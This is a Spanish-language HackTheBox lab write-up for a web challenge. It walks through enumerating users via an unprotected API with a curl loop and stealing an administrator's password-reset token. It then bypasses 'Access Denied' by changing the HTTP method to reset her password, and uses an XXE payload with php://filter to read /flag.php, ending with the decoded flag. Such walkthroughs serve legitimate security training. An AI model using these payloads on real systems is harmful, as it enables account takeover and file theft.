





# Laboratorio 🔬

1. Nos logueamos en el sitio web con las credenciales que nos da **`HackTheBox`**.
---
2. Una vez aquí veremos que únicamente tenemos acceso a **cambiar nuestra contraseña**, por lo cual interceptaremos esta solicitud con **Burp Suite**

* En la primera petición del servidor vemos que se usa un **API**

<p align="center">
    
</p>

* Lo que haremos ahora es enumerar usuario válido con esta **API**, la ruta para esto es: `/api.php/user/[UID]`
---
3. Usando un ciclo for enumeramos todos los usuarios en el sitio web
* `for i in $(seq 1 100); do curl -s -X GET "http://[IP]:[Port]/api.php/user/$i" | jq; done`
  * `-X GET`: Método usado para conseguir información sobre un usuario.
  * `| jq`: El **output** de cada consulta lo pasamos a formato **json**.

* **Output**
```json
<SNIP>
{
  "uid": "52",
  "username": "a.corrales",
  "full_name": "Amor Corrales",
  "company": "Administrator"
}
<SNIP>
```

* Después de muchisimos usuario vemos que **`Amor Corrales`** es la única que tiene como **company** `Administrator`, por lo cual nuestro objetivo ahora es acceder a este perfil.
---
4. Para esto necesitamos el **`token`** de esta usuario, y como vimos en la petición interceptada con **`Burp Suite`**, la ruta para esto es `/api.php/token/[UID]`
* Como ya sabemos el **uid** de **`Amor Corrales`** lo que haremos es ver su **token**
* `curl -s -X GET "http://178.128.45.143:30735/api.php/token/52"`

* **Output**
    ```json
    {"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"} 
    ```
---
5. Si de primeras tratamos de cambiar la contraseña
<p align="center">
    
</p>

* Vemos que tenemos un error `Access Denied`, por lo que ahora cambiaremos el método por el cual tramitamos esta petición.

<p align="center">
    
</p>

* Con esto, ya cambiamos la contraseña de esta usuario y tenemos sus credenciales `a.corrales:test`
---
6. Nos logueamos con las nuevas credenciales y vemos que tenemos una nueva funcionalidad 

<p align="center">
    
</p>

---

7. Vamos a 🟦 **`Add Event`** 🟦 , creamos un nuevo **evento** e interceptamos esta solicitud.

<p align="center">
    
</p>

* Vemos la información se tramita por usando **`XML`**.

---
8. Creamos una nueva entidad que nos permita leer el contenido del archivo **`/flag.php`**

* **Data**
```xml
<!DOCTYPE evil 
[<!ENTITY pwned SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]
>
<root>
    <name>&pwned;</name>
    <details>test</details>
    <date>2023-05-31</date>
</root>
```

**Output**
```python
Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```
---
9. Ahora decodeamos en **base64** el **output** entre `'` para obtener la **flag** 🏴
```bash
echo -n "PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K" | base64 -d
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```